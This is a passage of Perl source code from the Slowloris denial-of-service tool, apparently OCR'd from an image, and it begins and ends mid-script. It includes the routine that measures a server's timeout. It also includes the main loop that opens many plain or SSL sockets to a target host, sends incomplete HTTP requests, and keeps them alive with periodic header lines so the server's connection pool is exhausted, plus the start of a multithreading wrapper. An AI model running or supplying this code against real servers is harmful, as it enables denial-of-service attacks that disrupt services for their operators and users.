 "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {         doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (                         $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;                     }                 }                 if ( $working[$z] == 1 ) {                     if ($cache) {                         $rand = "?" . int( rand(99999999999999) );                     }                     else {                         $rand = "";                     }                     my $primarypayload =                         "$method /$rand HTTP/1.1\r\n"                       . "Host: $sendhost\r\n"                       . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"                       . "Content-Length: 42\r\n";                     my $handle = $sock[$z];                     if ($handle) {                         print $handle "$primarypayload";                         if ( $SIG{__WARN__} ) {                             $working[$z] = 0;                             close $handle;                             $failed++;                             $failedconnections++;                         }                         else {                             $packetcount++;                             $working[$z] = 1;                         }                     }                     else {                         $working[$z] = 0;                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     $failed++;                     $failedconnections++;                 }             }         }         print "\t\tSending data.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 1 ) {                 if ( $sock[$z] ) {                     my $handle = $sock[$z];                     if ( print $handle "X-a: b\r\n" ) {                         $working[$z] = 1;                         $packetcount++;                     }                     else {                         $working[$z] = 0;                         #debugging info                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     #debugging info                     $failed++;                     $failedconnections++;                 }             }         }         print "Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";         sleep($timeout);     } }  sub domultithreading {     my ($num) = @_;     my @thrs;     my $i                    = 0;     my $connectionsperthread = 50;     while ( $i &lt; $num ) {         $thrs[$i] =           threads->create( \&amp;doconnections,